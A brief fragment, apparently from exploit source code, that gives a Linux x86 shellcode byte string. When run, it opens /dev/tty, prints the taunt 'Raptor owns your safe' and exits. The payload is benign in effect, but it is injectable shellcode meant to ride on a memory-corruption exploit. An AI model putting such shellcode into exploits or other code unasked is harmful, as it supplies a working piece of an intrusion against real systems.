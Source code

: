 "\x29\xc0\x29\xdb\x29\xc9\x29\xd2\xeb\x1e\x5e\x8d"
"\x1e\x88\x53\x08\xb0\x05\x66\xb9\x02\x0c\xcd\x80\x8d\x4b\x09\x89"
"\xc3\xb0\x04\xb2\x17\xcd\x80\x29\xc0\x40\xcd\x80\xe8\xdd\xff\xff"
"\xff\x2f\x64\x65\x76\x2f\x74\x74\x79\x20\x52\x61\x70\x74\x6f\x72"
"\x20\x6f\x77\x6e\x73\x20\x79\x6f\x75\x72\x20\x73\x61\x66\x65\x0b"
